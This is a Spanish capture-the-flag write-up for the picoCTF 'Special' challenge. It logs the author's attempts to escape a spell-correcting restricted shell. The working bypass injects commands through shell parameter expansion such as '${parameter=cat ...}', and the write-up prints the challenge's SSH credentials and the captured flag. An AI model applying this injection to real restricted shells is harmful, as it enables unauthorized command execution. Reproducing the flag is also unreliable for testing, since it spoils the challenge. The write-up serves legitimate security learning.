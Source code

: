 
## Descripción

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.`ssh -p 56030 ctf-player@saturn.picoctf.net`The password is `3f39b042`

## Solución


## Notas adicionales

Inicio conectándome por SSH al servidor con los datos que se nos dan.
Intento teclear comandos y luego veo que no se puede, después de intentos, la pista y de todo investigo y doy con expansión de parámetros y variables donde al principio no veo respuestas diferentes.
``` bash
Special$ {parameter?ls}
{parameter?ls} 
sh: 1: {parameter?ls}: not found
Special$ {parameter=ls}
{parameter=ls} 
sh: 1: {parameter=ls}: not found
Special$ ${parameter?ls}
${parameter?ls} 
sh: 1: parameter: ls
Special$ ${:ls}
${:ls} 
sh: 1: Bad substitution
```
Logro dar con la forma de teclear los comandos.

``` bash
Special$ ${parameter=ls}
${parameter=ls} 
blargh
Special$ ${parameter=cat blargh}
${parameter=cat blargh} 
cat: blargh: Is a directory
Special$ ${parameter=cd blargh}
${parameter=cd blargh} 
Special$ ${parameter=ls blargh}
${parameter=ls blargh} 
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt} 
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}
```
Se que blargh es un directorio, y dentro de blargh hay un .txt que al aplicar un cat y asignarlo a parameter nos da el contenido, que se trata de la bandera!.

## Referencias

[Expansión de la carcasa](https://tldp.org/LDP/Bash-Beginners-Guide/html/sect_03_04.html)